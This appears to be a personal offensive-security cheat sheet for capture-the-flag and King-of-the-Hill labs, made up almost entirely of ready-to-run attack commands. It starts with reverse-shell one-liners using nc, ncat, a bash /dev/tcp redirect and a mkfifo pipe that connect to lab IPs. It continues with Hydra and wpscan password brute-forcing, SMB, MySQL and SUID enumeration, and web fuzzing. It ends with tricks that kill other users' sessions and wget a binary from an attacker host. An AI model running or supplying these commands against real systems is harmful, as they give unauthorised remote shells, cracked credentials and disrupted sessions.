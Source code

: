# Reverse_shell ✅
nc 10.11.99.141 5555 -e bash
ncat 10.11.99.141 5555 -e bash
/bin/bash -c /bin/bash -i >& /dev/tcp/10.9.184.226/1112 0>&1
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.14.85.242 9001 >/tmp/f
Nmap_enumeration ✅
sudo nmap -p- <ip> -sV -T5
sudo nmap -p- <ip> -sV -T5 -Pn
sudo nmap 139,445 <ip> -sV -T5 --script=vuln
sudo nmap -p 139,445 <ip> -sV -T5 --script=vuln -Pn
SUID_SGID_Capabilities_Files_enumeration  ✅
getcap -r / 2>/dev/null 
find /  -perm -04000 -ls 2>/dev/null
find / -type f \( -perm -4000 -o -perm -2000 \) -exec ls -l {} \;
———————————————
SMB✅
enum4linux -a
smbclient -L //<ip>/ -p <port>
smbget -R smb://<ip>/<share>
smbclient //<ip>/<share dir> 
smbclient //<ip>/<share dir> -p <port>
smbclient //<ip>/<share dir> -U Anonymous -p <port>
———————————————
MySQL ✅
*enumeration ✡️
mysql -u root
mysql -u root -p
mysql -h <Hostname> -u root
*MySQL commands ✡️
show databases;
use <database>;
connect <database>;
show tables;
describe <table_name>;
show columns from <table>;
SELECT VERSION();
select * from <table>;

SELECT * FROM <table_name> WHERE <column_name> LIKE '%search_string%';
———————————————
Hydra Attack Type Cheat Sheet ✅
hydra -t 4 -l bob -P /usr/share/wordlists/rockyou.txt -vV <ip> ftp
hydra -t 4 -l bob -P /usr/share/wordlists/rockyou.txt -f <ip> -s 80 http-get /protected/ -I
hydra -t 4 -l bob -P /usr/share/wordlists/rockyou.txt -f <ip> -s 80 http-post-form "/<dir>:username=^USER^&password=^PASS^:<Faild Error>" -vV -I
———————————————
WEB ✅
*subdomains_enumeration ✡️
gobuster vhost -u http://example.com -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt —append-domain -t 100 --no-error 
ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -u http://example.com/ -H "Host:FUZZ.example.com" -fw 6
wfuzz -c -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt --hc 400,404,403 -H "Host: FUZZ.example.com" -u http://example.com -t 100
*directory _enumeration ✡️
nikto -h http://example.com

dirb http://example.com
dirb http://example.com -X .php,.html,.bak,.log,.txt,.zip,.enc

gobuster dir -u http://example.com -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-big.txt
gobuster dir -u http://example.com -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -x .php,.html,.bak,.log,.txt,.zip,.enc

ffuf -u http://example.com/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -fc 500,404
ffuf -u http://example.com/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -e .php,.html,.bak,.log,.txt,.zip,.enc

wfuzz -c -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-big.txt --hc 404,500 http://example.com/FUZZ
*Wpscan ✡️
wpscan --url http://<adress>/ -e u (enum user)
wpscan --url http://<adress>/ -e ap (plugin)
wpscan --url http://<adress>/ --usernames <user> --passwords /usr/share/wordlists/rockyou.txt
*Get Method Brute Force ✡️
nikto -h http://10.10.131.147:1234/manager/html -id bob:<password>
hydra -t 4 -l bob -P /usr/share/wordlists/rockyou.txt -f 10.10.176.108 -s 80 http-get /protected/ -I
———————————————
gpg command cheetsheet ✅
gpg --import key.gpg
gpg --import key.asc

gpg --batch --yes -d <file.gpg|pgp> -o secret.txt
gpg --batch --yes --passphrase 'passphrase' <file.gpg|pgp> 
ICMP_listener ✅
sudo tshark -i any -f "icmp"
sudo tcpdump ip proto \\icmp -i tun0
———————————————
KoTH Tricks   ✅
set write off
chattr +ai /root/king.txt
chattr -ai /root/king.txt
pkill -9 -t pts/1
set -o noclobber /root/king.txt
set +o noclobber /root/king.txt
sudo mount --bind -o ro /root/king.txt /root/king.txt 2>/dev/null
echo "USERNAME" >| /root/king.txt

wget http://yourip/nyancat
chmod +x nyancat 
./nyancat > /dev/$pts

PATH=0
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/local/games:/usr/games

